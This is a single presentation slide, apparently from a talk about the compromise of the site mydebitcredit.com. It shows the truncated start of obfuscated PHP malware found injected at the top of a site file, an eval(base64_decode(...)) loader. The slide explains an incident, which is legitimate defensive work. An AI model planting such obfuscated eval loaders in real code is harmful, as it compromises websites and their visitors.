

# I’ve been Hacked!
mydebitcredit.com
Reviewing one of the disabled files, this is the malicious code that was injected at the beginning of the file:<?php /**/eval(base64_decode("aWYoZnVuY3Rpb25fZXhpc3RzKCdvYl9zdGFydCcpJiYhaXNzZXQo... (this continues on)
93